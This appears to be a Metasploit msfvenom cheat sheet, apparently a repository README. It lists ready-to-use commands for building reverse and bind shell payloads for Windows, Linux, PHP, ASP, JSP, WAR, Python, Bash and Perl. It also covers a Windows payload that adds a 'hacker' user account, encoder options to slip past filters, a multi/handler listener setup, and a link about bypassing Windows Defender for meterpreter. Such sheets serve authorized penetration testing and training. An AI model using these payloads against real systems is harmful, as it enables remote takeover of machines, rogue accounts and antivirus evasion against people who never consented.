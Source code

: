 ## Creating a payload

- msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]

To view list of payloads: msfvenom -l payloads
To view the payload options: msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

## Creating a payload with encoding

- msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile

## Creating a payload using a template

- msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile

## Listening for MSfvenom Payloads:

```
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost <IP>  
msf5>set lport <PORT>  
msf5> set ExitOnSession false  
msf5>exploit -j  
```

## Windows Payloads

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

## Linux Payloads

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
- msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

Add a user in windows with msfvenom: 

- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

## Web Payloads

PHP

- msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On>  -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

## Scripting Payloads

Python

- msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

Bash

- msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

Perl

- msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


Creating an Msfvenom Payload with an encoder while removing bad charecters:

- msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"

## Resources:

- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/